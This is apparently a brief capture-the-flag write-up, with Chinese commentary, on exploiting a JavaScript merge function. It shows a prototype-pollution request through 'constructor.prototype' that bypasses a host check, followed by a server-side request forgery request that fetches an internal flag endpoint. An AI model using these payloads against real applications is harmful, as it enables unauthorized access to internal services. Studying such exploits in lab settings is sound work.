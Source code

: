 ```javascript
function update(dst, src) {
  for (key in src) {
    if (key.indexOf("__") != -1) {
      continue;
    }
    if (typeof src[key] == "object" && dst[key] !== undefined) {
      update(dst[key], src[key]);
      continue;
    }
    dst[key] = src[key];
  }
}

```
update函数存在原型链污染，可以污染{}让strategy多出现一些属性，从而绕过host限制

```
POST /user/info HTTP/1.1
Content-Type: application/json
Host: 106.14.57.14:32385
Cookie: xxxxxxx

{"constructor":{"prototype":{"127.0.0.1":true}}}
```

ssrf 获取flag

```
GET /proxy?url=http://127.0.0.1:3000/flag HTTP/1.1
Host: 106.14.57.14:32385
Cookie: xxxxxxx
```